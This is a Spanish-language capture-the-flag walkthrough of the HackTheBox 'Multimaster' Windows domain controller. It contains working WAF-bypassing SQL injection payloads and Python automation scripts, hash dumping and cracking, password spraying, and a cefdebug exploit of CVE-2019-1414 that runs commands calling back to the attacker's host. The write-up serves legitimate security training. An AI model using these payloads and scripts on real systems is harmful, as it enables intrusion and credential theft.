## Box Info

| Name                  | Multimaster      | 
| :-------------------- | ---------------: |
| Release Date          | 07 Mar, 2020     |
| OS                    | Windows          |
| Rated Difficulty      | Insane           |

```zsh
ping -c 3 10.10.10.179   

PING 10.10.10.179 (10.10.10.179) 56(84) bytes of data.
64 bytes from 10.10.10.179: icmp_seq=1 ttl=127 time=161 ms
64 bytes from 10.10.10.179: icmp_seq=2 ttl=127 time=129 ms
64 bytes from 10.10.10.179: icmp_seq=3 ttl=127 time=127 ms
```

## Recon

Realizamos un reconocimiento con nmap para ver que puertos estan abiertos.

```zsh
> sudo nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.10.179 -oG allPorts
> nmap -sCV -p 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,9389,47001,49664,49665,49666,49668,49671,49674,49675,49678,49688,49698,49739 10.10.10.179 -oN targeted

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: MegaCorp
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-08 09:44:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-07-08T09:37:04
|_Not valid after:  2055-07-08T09:37:04
| ms-sql-info: 
|   10.10.10.179:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-07-08T09:45:36+00:00; +7m00s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.10.179:1433: 
|     Target_Name: MEGACORP
|     NetBIOS_Domain_Name: MEGACORP
|     NetBIOS_Computer_Name: MULTIMASTER
|     DNS_Domain_Name: MEGACORP.LOCAL
|     DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|     DNS_Tree_Name: MEGACORP.LOCAL
|_    Product_Version: 10.0.14393
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-07-08T09:45:36+00:00; +7m00s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2025-07-08T09:45:25+00:00
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2025-07-07T09:36:33
|_Not valid after:  2026-01-06T09:36:33
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49739/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2025-07-08T02:45:28-07:00
| smb2-time: 
|   date: 2025-07-08T09:45:29
|_  start_date: 2025-07-08T09:36:41
|_clock-skew: mean: 1h07m00s, deviation: 2h38m46s, median: 6m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

Agregamos el nombre de dominio para mapearlo a la direccion IP, para que resuelva el dominio localmente.

- **DOMAIN NAME :  MEGACORP.LOCAL**

```bash
echo "10.10.10.179 MEGACORP.LOCAL" | sudo tee -a /etc/hosts
```

Enumeramos Tecnologias que maneja la Web con **WhatWeb** hace lo mismo que  la extension Wappalyzer .

```bash
whatweb http://10.10.10.179 
 
http://10.10.10.179 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.179], Microsoft-IIS[10.0], Script, Title[MegaCorp], X-Powered-By[ASP.NET], X-UA-Compatible[IE=edge]
```

Con netexec y smb podemos obtener mayor informacion sobre la maquina como hostname, version del SO y el nombre de dominio.

```python
nxc smb 10.10.10.179 --shares

SMB         10.10.10.179    445    MULTIMASTER      [*] Windows 10 / Server 2016 Build 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True) 
SMB         10.10.10.179    445    MULTIMASTER      [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

Tambien podemos enumerar el los archivos compartidos por SMB con null session.

```zsh
smbclient -L //multimaster.htb/ -N
```

```zsh
smbmap -H 10.10.10.179 --no-banner

[*] Detected 1 hosts serving SMB                            
[*] Established 1 SMB connections(s) and 0 authenticated session(s)           
[!] Access denied on 10.10.10.179, no fun for you...
[*] Closed 1 connections
```

Lo mismo para RPC, enumerar usuarios con null sesion.

```zsh
rpcclient -U '' 10.10.10.179 -N

rpcclient $> querydispinfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
```

Enumeracion por transferencia de zona DNS (AXFR)

```zsh
dig @10.10.10.179 megacorp.local
```

Enumerando un poco el sitio web, tenemos un buscador de `Colleague Finder` y si buscamos por una letra aparecen algunos nombres (posibles usuarios), guardaremos estos nombres para seguir enumerando.



```zsh
cat users | grep megacorp | sed 's/@megacorp.htb//' | sponge users
```

```dtd
sbauer
okent
ckane
kpage
james
rmartin
jorden
alyx
ilee
nbourne
zpowers
aldom
egre55
```

### ASREP Roast | Enum users

Con el ataque de ASREP Roast podemos identificar usuarios sin el kerberos pre-authentication (`UF_DONT_REQUIRE_PREAUTH`). Esto nos permite obtener un TGT (Ticket Granting Ticket) sin proveer credenciales.

```zsh
impacket-GetNPUsers MEGACORP.LOCAL/ -no-pass -usersfile users 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
## Kerbrute

Con kerbrute enumeramos los usuarios validos que se encuentran en el dominio.

```zsh
kerbrute userenum --dc 10.10.10.179 -d MEGACORP.LOCAL users
```

```dtd
2025/07/08 04:08:59 >  [+] VALID USERNAME:       ckane@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       okent@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       sbauer@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       kpage@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       rmartin@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       james@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       nbourne@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       ilee@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       alyx@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       jorden@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       zpowers@MEGACORP.LOCAL
2025/07/08 04:08:59 >  [+] VALID USERNAME:       aldom@MEGACORP.LOCAL
2025/07/08 04:08:59 >  Done! Tested 13 usernames (12 valid) in 0.253 seconds
```


## SQLi in Colleague Finder

Sin pistas intentaremos interceptar la peticion que mandamos al `Colleague Finder` con BurpSuite.



Podemos ver que se envia una peticion en formato JSON.



Inmediatamente con la entrada JSON, intente realizar una prueba rapida con sql injection. Por ejemplo con una comilla simple `{"name":"'"}` obtuve 403 Forbidden: Acces Denied.

Podria ser que detras del servidor web se encuentre un WAF (Web Application Firewall) que impide los intentos de inyeccion SQL.



Probe con fuerza bruta para enviar multiples consultas para saber que caracteres permitia pero me topaba con el WAF que impedia que realizara consultas. 
Modifique el comando para que se enviaran con un intervalo de tiempo junto con el `Content-Type` y escondiendo los estados 200:

```zsh
 wfuzz -c -X POST --hc=200 -H "Content-Type: application/json;charset=utf-8" -s 1 -w /usr/share/seclists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' http://10.10.10.179/api/getColleagues
```



El caracter `\` escape es el unico que no esta prohibido y es el que obtengo un 500 Internal Server Error que indica un SQLi

![[Pasted image 20250708042744.png]]

### Bypassing WAF with JSON Unicode Escape

[bypassing-wafs-with-json-unicode-escape-sequences](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)

Podriamos utilizar como ejemplo los tamper de sqlmap (`locate tamper | grep -v __pycache__`) para poder utilizarlos y bypassear el WAF

`charsunicodeescape.py`



```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, signal, time, json 

def def_handler(sig, frame):
    print("*\n\n[+] Exit.. \n")
    sys.exit(1)

#Ctrl+x 
signal.signal(signal.SIGINT, def_handler)

#Var Global
main_url = "http://10.10.10.179/api/getColleagues"

def getUnicode(sqli):

    sqli_modified = ""

    for character in sqli:
        sqli_modified += "\\u00" + hex(ord(character))[2::]

    return sqli_modified

def makeRequest(sqli_modified):

    headers = {
        'Content-Type' : 'application/json;charset=utf-8'
    }

    post_data = '{"name":"%s"}'  % sqli_modified

    r = requests.post(main_url, headers=headers, data=post_data)

    data_json = json.loads(r.text)
    return (json.dumps(data_json, indent=4))


if __name__ == '__main__':
    
    while True:

        sqli = input("> ")
        sqli = sqli.strip()
        sqli_modified = getUnicode(sqli)

        response_json = makeRequest(sqli_modified)

        print(response_json)
```

>Con CyberChef se puede obtener el mismo resultado haciendo el encode a `Escape Unicode Characters` con el prefix `\u`  y enviando solicitudes por BurpSuite.

### Enum Database

```sql
' order by 6-- -
null
' order by 5-- -
{SNIP..}
test' union select 1,2,3,4,5-- -
```



```sql

a' union select 1,db_name(),3,4,5-- -

a' union select 1,schema_name,3,4,5 from information_schema.schemata-- -

a' union select 1,2,table_name,4,5 from information_schema.tables where table_schema='dbo'-- -
```



```sql
a' union select 1,2,column_name,4,5 from information_schema.columns where table_schema='dbo' and table_name='Logins'-- -
```



Ahora podemos dumpear la informacion de username y password, para posteriormemte crackear los hashes  y enumerar que credenciales son validas.

```sql
a' union select 1,username,password,4,5 from Logins-- -
```



Hacemos un ajuste de formato para quedarnos con el nombre y el hash para poder crackear los hashes y no tener algun incoveniente con john o hashcat.

```bash
cat hash | grep -E "position|name" | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '"' | tr -d ',' | paste -d " " - - | tr ' ' ':' > hash
```



Con john no pudimos romperlas pero posiblemente con hashcat si se pueda lograr pero para eso necesitamos saber el tipo de hash  con `hash-identifier`, vemos que es un ``SHA-384`` , con hashcat podemos listar los modos de ese tipo de hash.



```zsh
hashcat --example-hashes | grep "\-384"
```



Podriamos intentar con cada uno hasta lograr romper alguno.

```zsh
hashcat --example-hashes | grep "\-384" -B 4
```



Intentare romper sin la maquina virtual, es decir usare la grafica para poder usar todo el poder e ir un poco mas rapido

```zsh
./hashcat.exe -m 17900 -a 0 hash rockyou.txt --user
```

Obtuvimos 3 contraseñas, ya tenemos un listado para validar credenciales.



```dtd
password1
finance1
banking1
```

Se intento hacer un `password spraying` pero ninguna credencial era valida.

## SQL - Enumerating Domain Accounts 

En SQL podemos enumerar mediante funciones usuarios y grupos de un Dominio de Directorio Activo.

[hacking-sql-server-procedures-part-4-enumerating-domain-accounts](https://www.netspi.com/blog/technical-blog/network-pentesting/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

```sql
a' union select 1,default_domain(),3,4,5-- -

a' union select 1,(select SUSER_SID('MEGACORP\Administrator')),3,4,5-- -
```

Ahora como se describe en el articulo usaremos la funcion "``SUSER_SID``" para obtener el RID de Administrator.

```sql
a' union select 1,(select sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))),3,4,5-- -
```

```
{
        "id": 1,
        "name": "0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000",
        "position": "3",
        "email": "4",
        "src": "5"
    }

```

Verificamos que RID sea del Administrator. Al proporcionar un RID completo a la función "SUSER_SNAME", esta devuelve el nombre de la cuenta, grupo o equipo del dominio asociado.

```sql
a' union select 1,(select SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000)),3,4,5-- -
```



> En Active Directory, cada usuario, grupo y equipo tiene un identificador único llamado RID. Similar al principal_id, el RID es otro número que se asigna incrementalmente a los objetos del dominio.
> El RID son los 8 ultimos digitos (`f4010000`) y el SID es el resto que es estatico (`0x0105000000000005150000001c00d1bcd181f1492bdfc236`). 


```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, signal, time, json, sys

def def_handler(sig, frame):
    print("*\n\n[+] Exit.. \n")
    sys.exit(1)

#Ctrl+x 
signal.signal(signal.SIGINT, def_handler)


main_url = "http://10.10.10.179/api/getColleagues"
#Static Var
sid = "0x0105000000000005150000001c00d1bcd181f1492bdfc236"

def getUnicode(sqli):

    sqli_modified = ""

    for character in sqli:
        sqli_modified += "\\u00" + hex(ord(character))[2::]

    return sqli_modified

def makeRequest(sqli_modified):

    headers = {
        'Content-Type' : 'application/json;charset=utf-8'
    }

    post_data = '{"name":"%s"}'  % sqli_modified

    r = requests.post(main_url, headers=headers, data=post_data)

    data_json = json.loads(r.text)
    return (json.dumps(data_json, indent=4))

def getRID(rid):

    rid_hex = hex(rid).replace('x', '')

    list = []

    for character in rid_hex:
        list.append(character)

    rid = list[2] + list[3] + list[0] + list[1] + "0000"

    return rid

if __name__ == '__main__':
    
    for x in range(1100, 1200):

        rid = getRID(x)
        sqli = "a' union select 1,(select SUSER_SNAME(%s%s)),3,4,5-- -" % (sid, rid)

        sqli_modified = getUnicode(sqli)

        response_json = makeRequest(sqli_modified)

        print(response_json)

        time.sleep(1)
```



> Con este script tambien se puede iterar o enumerar usuarios. 
> https://github.com/Keramas/mssqli-duet

Guardamos la request del BurpSuite

```zsh
mssqli-duet.py -p 'name' -i "a'" -e unicode -r request.txt -rid 1000-1200 -t 3
```

```zsh
MEGACORP\\tushikitatomo
MEGACORP\\andrew
MEGACORP\\lana
```

Ahora tenemos 3 usuarios nuevos que intentaremos de nuevo hacer un Password Spraying
### Password Spraying

```bash
nxc smb 10.10.10.179 -u users -p passwords --continue-on-success
```



```d
tushikikatomo:finance1 
```

Con esas nuevas credenciales validaremos si tenemos acceso a una shell con WinRm.



## Priv: Lateral Movement -  tushikikamoto -> cyork


```powershell
Get-Process
```



Podemos identificar que se esta ejecutando Code lo que me hace pensar que es Visual Studio Code, podriamos verificar la version del VSCode.

`C:\Program Files\Microsoft VS Code\bin`



Version 1.37.1 - CVE-2019-1414 (An elevation of privilege vulnerability exists in Visual Studio Code when it exposes a debug listener to users of a local computer, aka 'Visual Studio Code Elevation of Privilege Vulnerability')

[Github - cve-2019-1414](https://github.com/qazbnm456/awesome-cve-poc?tab=readme-ov-file#cve-2019-1414)

### CEF Debugging (CVE-2019-1414)

[Github - cefdebug](https://github.com/taviso/cefdebug)

Ejecutaremos el cefdebug.exe para que realize un escaneo y verifique servidores que se encuentran abiertos que parecen ser CEF Debuggers.

```powershell
.\cefdebug.exe
```



Con **CEFdebug** podemos utilizar la opcion ``--code`` junto con la lista que nos permite la ejecucion de comandos

```powershell
.\cefdebug.exe --url ws://127.0.0.1:22007/55a9c205-f376-4be7-a2fb-70d117d5bfe9 --code "process.version"
```



Ahora como PoC nos enviaremos un ping para verificar que podemos establecer una reverse shell con los scripts de Nishang que estaremos utilizando.

```powershell
.\cefdebug.exe --url ws://127.0.0.1:22007/55a9c205-f376-4be7-a2fb-70d117d5bfe9 --code "proc
ess.mainModule.require('child_process').exec('ping -n 2 10.10.14.20')"
```

